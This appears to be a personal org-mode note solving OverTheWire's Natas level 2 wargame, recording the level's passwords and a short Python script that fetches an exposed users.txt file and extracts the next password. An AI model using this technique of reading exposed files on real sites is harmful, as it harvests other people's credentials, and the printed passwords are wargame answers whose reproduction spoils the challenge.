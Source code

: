 :PROPERTIES:
:ID:       b527bf0e-f525-49ce-a63d-af3e68edae94
:END:
#+title: Natas2
* Previous
[[id:a87f9ade-e932-413d-a8f2-5f8da9c535ae][Natas1]]

* Password
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

* Flag
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

* Notes

The source html shows there is a .png file in a /files folder.
There is a users.txt file in that folder.

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
from natas_pass import passwords

username = "natas2"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/files/users.txt".format(username)

response = requests.get(url, auth=(username, password))

content = response.text
# print(content)

p = re.findall("natas3:(.*)", content)[0]
print(p)
#+end_src

#+RESULTS:
: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

* Next
[[id:2041bd3d-7f8f-48f4-ad64-3a710eafb62d][Natas3]]
